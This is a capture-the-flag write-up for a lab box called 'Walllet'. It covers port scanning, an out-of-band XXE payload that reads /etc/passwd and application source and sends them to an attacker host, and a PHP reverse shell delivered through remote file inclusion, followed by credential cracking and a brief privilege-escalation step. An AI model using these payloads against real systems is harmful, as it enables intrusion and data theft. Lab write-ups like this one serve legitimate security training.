 ```yaml
---
title: 'Walllet Writeup'
date: '2025-02-28'
tags: ['XXE', 'RFI', 'Linux', 'Hacking Club']
draft: false
summary: 'The application contains vulnerabilities including XXE, RFI, reverse shell, privilege escalation, RCE, cracked password, and unauthorized access to sensitive files.'
images: ['/static/images/walllet-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/walllet-writeup-images/default.png)

---

## Port Scanning

`nmap -sV -sC -p- -v $IP --open`

![wallet](/static/images/walllet-writeup-images/image.png)

---

## Enumeration

`http://172.16.8.243`

![wallet 1](/static/images/walllet-writeup-images/image1.png)

Registering a new user

![wallet 2](/static/images/walllet-writeup-images/image2.png)

After logging in, we gain access to the application. The `Reports` section stands out.

![wallet 3](/static/images/walllet-writeup-images/image3.png)

Intercepting with Burp shows that it's an XML request.

![wallet 4](/static/images/walllet-writeup-images/image4.png)

![wallet 5](/static/images/walllet-writeup-images/image5.png)

Since the response came back empty, we can test for **Out-of-band XML External Entity (OOB XXE).**

To test it, we'll create a `.dtd` file that will be referenced by the XML.

`exploit.dtd`

```python
<!ENTITY % gabe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://10.0.31.150:1337/p?data=%gabe;'>">
```

```python
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://10.0.1.150/exploit.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

![wallet 6](/static/images/walllet-writeup-images/image6.png)

```bash
python3 -m http.server 80
```

![wallet 7](/static/images/walllet-writeup-images/image7.png)

```bash
nc -lnvp 1337
```

![wallet 8](/static/images/walllet-writeup-images/image8.png)

Decoding the base64 output confirms it's the server's `/etc/passwd`.

![wallet 9](/static/images/walllet-writeup-images/image9.png)

Using the same process, we can read the `wallet.php` file, which contains the application code.

`exploit.dtd`

```python
<!ENTITY % gabe SYSTEM "php://filter/convert.base64-encode/resource=wallet.php">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://10.0.31.150:1337/p?data=%gabe;'>">
```

![wallet 10](/static/images/walllet-writeup-images/image10.png)

Analyzing the code reveals a Remote File Inclusion (RFI) since it does a **require_once** on the **wallets_balance** parameter.

---

## Foot Hold

Since we have an RFI, we create a reverse shell and pass it as the **wallet_balance** parameter.

```python
<?php system("/bin/bash -c 'sh -i >& /dev/tcp/10.0.31.150/1337 0>&1'"); ?>
```

![wallet 11](/static/images/walllet-writeup-images/image11.png)

![wallet 12](/static/images/walllet-writeup-images/image12.png)

```bash
nc -lnvp 1337
```

![wallet 13](/static/images/walllet-writeup-images/image13.png)

---

## Pivoting

Database password found in **config.php**.

![wallet 14](/static/images/walllet-writeup-images/image14.png)

Connecting to MySQL, we find the admin hash:

`mysql -u satoshi -p`

![wallet 15](/static/images/walllet-writeup-images/image15.png)

Used John the Ripper to crack the hash.

![wallet 16](/static/images/walllet-writeup-images/image16.png)

`su admin`

![wallet 17](/static/images/walllet-writeup-images/image17.png)

---

## Privillege Escalation

`sudo -l`

![wallet 18](/static/images/walllet-writeup-images/image18.png)

---

## Proof

![wallet 19](/static/images/walllet-writeup-images/image19.png)
